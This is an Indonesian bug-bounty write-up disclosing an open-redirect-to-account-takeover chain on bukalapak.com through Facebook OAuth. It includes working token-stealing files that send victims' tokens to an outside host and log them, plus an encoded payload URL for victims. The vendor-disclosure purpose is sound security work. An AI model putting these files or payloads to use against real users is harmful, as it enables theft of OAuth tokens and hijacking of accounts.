 ```yaml
---
title: "Open redirect -> Account Takeover pada bukalapak.com"
date: 2020-07-14 01:38:00 +0000
modified: 2020-07-14
description: "Escalating Open Redirect into Account Takeover pada Bukalapak.com"
comments: true
tags:
- bukalapak
mathjax: false
category:
- Bugbounty
private: false

---
```

### Open Redirect  

Open Redirect adalah kerentanan dimana aplikasi menerima input dari pengguna yang akan digunakan untuk perpindahan halaman atau redirect pada aplikasi dan biasanya input tersebut tidak mempunyai filter atau dapat dibypass, input dari user yang akan di gunakan sebagai redirect tersebut yang menyebabkan penyalahgunaan fitur tersebut.

### Account Takeover 

Account Takeover adalah mengambil alih akses akun orang lain sama seperti artinya secara harviah, untuk melakukan account takeover kita dapat menggunakan berbagai macam cara, salah satunya adalah yang akan dijelaskan pada report ini yaitu menggabungkan kerentanan *Open Redirect* dengan *Facebook Oauth* untuk mendapatkan *token* dari akun orang lain, sehingga dapat mengambil alih akses terhadap akun yang dimiliki orang lain.  

###  Kesimpulan Masalah   

Open redirect yang ditemukan ada pada domain glimpse.bukalapak.com dengan parameter link, contoh open redirect nya adalah : [https://glimpse.bukalapak.com/redirect?link=https://evil.com](https://glimpse.bukalapak.com/redirect?link=https://evil.com "https://glimpse.bukalapak.com/redirect?link=https://evil.com") tapi karena bukalapak tidak menerima *Open Redirect* yang meliki impact keamanan yang kecil, maka saya harus mencari cara untuk memanfaatkan celah yang ada untuk mendapatkan celah yang mempunyai impact lebih besar dari pada sekedar *Open Redirect*.  

![Bukalapak Details](/images/bukalapak/redir.PNG)

saya mencoba memanfaatkan kelemahan tersebut(open redirect) agar bisa meningkatkan tingkat resikonya dengan *oauth* (facebook/google) dan dapat melakukan *account takeover*. 

fitur login dengan facebook yang berada di url berikut:   

    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fctfs.me&response_type=token

Oauth facebook memiliki 3 parameter yang seharusnya ada pada requestnya yaitu **client_id** dimana **727108917352926** adalah ID milik aplikasi bukalapak di facebook , kemudian **redirect_uri** adalah url yang akan menerima callback dari facebook **Yang hanya bisa di arahkan kepada domain milik bukalapak yaitu \*.bukalapak.com** , karena kita sudah memiliki open redirect maka attack scenario ini dapat mudah dijalankan, jika kita menggunakan domain selain bukalapak sebagai **redirect_uri** nya maka kita akan mendapatkan error berikut :   

![Error FB Oauth](/images/bukalapak/error.PNG)

Skenario yang saya buat untuk melancarkan attack ini adalah sebagai berikut :   

![Skenario](/images/bukalapak/skenario.PNG)

saya menggunakan 3 file berikut untuk mendapatkan token dari user, tanpa adanya user interaction sama sekali hingga tokennya tersimpan di dalam log yang saya persiapkan.   

```
    //file save.php
    <?php
    $file = fopen("token_facebook_log.txt","a");
    fwrite($file,@$_GET['data']."\n");
    fclose($file);
    ?>
```    

```
    //file steal.html
    <h2> 😈😈😈</h2>
    <script>
     let token = window.location.hash.substring(1);
     //alert("YOUR TOKEN IS MINE: "+token);
     const Http = new XMLHttpRequest();
     const url='https://security.ctfs.me/save.php?data='+token;
     Http.open("GET", url);
     Http.send();
     Http.onreadystatechange=(e)=>{
     console.log(Http.responseText)
     }
    </script>
    <meta http-equiv="refresh" content="1; url=https://bukalapak.com" />
```

```
    //file trusted.php
    <?php
    header("Location:
    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fglimpse.bukalapak.com%2Fredirect%3Flink%3Dhttps://security.ctfs.me
    /steal.html&response_type=token&scope=email%2C+groups_access_member_info%2C+p
    ublish_to_groups%2C+user_age_range%2C+user_birthday%2C+user_events%2C+user_fri
    ends%2C+user_gender%2C+user_hometown%2C+user_likes%2C+user_link%2C+user_loca
    tion%2C+user_photos%2C+user_posts%2C+user_tagged_places%2C+user_videos%2C+pu
    blish_actions%2C+manage_pages%2C+instagram_basic");
    ?>
```

Untuk validasi token yang kita dapatkan ke facebook bisa menggunakan [https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2](https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2 "https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2"), dan ternyata ketika user tersebut menggunakan Mobile Apps Bukalapak token yang di grant mempunyai waktu expired **NEVER** yang berarti hanya perlu 1x mengambil token dari korban dan attacker dapat login menggunakan token tersebut kapanpun(**NEVER**).

![FB Debug](/images/bukalapak/debug.PNG)  

    // Final Payload ( untuk di-kirimkan kepada korban )
    https://glimpse.bukalapak.com/redirect?link=%68%74%74%70%73%3a%2f%2f%73%65%6
    3%75%72%69%74%79%2e%63%74%66%73%2e%6d%65%2f%74%72%75%73%74%65%64
    %2e%70%68%70

User tidak diperlukan melakukan apapun **jika sudah terauthentikasi bukalapaknya dengan facebook** (jika belum maka aplikasi bukalapak akan meminta izin ke facebook) dan kemudian token user tersebut akan dikirim kepada log attacker.


### Video POC

<iframe width="560" height="315" src="https://www.youtube.com/embed/CR3Uyw7ydhg" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

### Timeline

|Description|Date|
|----------|:-------------:|
| **Sent Report to security@bukalapak.com** | Jan 17, 2019, 12:49 AM |
| **Bukalapak Response(Verify)** | Jan 17, 2019, 11:43 AM |
| **Bukalapak Response(Known Issue)** | Jan 18, 2019, 2:34 PM |
| **Publish Writeup** | Jul 14, 2020 9:00 PM |

### Saran

Untuk mitigasi celah keamanan ini bisa dengan menerapkan whitelist terhadap redirect yang ada pada glimpse.bukalapak.com atau merubah konfigurasi aplikasi facebook-nya agar hanya menerima domain tertentu saja untuk menerima callback token dari oauth, jangan menggunakan wildcard **\*.bukalapak.com** karena bukalapak yang memiliki banyak domain dan asset dibelakang domain tersebut jadi akan sulit untuk memastikan semua asset tidak memiliki kerentanan seperti *open redirect*.
